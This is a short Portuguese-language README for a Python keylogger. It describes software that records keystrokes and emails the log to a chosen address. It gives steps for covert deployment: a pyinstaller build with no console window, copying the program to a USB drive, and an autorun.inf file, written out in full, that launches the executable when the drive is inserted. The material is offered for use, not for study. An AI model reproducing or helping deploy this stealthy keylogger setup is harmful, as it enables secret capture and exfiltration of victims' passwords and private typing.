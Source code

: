 # Keylogger
[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

Programa feito para registrar teclas apertadas no teclado e enviar log para email desejado

# Para funcionamento ideal:

  - Executar o comando: pyinstaller --noconsole -w keyloger.py
  - Salvar arquivos no pendrive que deseja habilitar o autorun
  - Digitar o seguinte código dentro do pendrive:
  
```sh
[autorun]
;open=keyloger.exe
ShellExecute=keyloger.exe
````
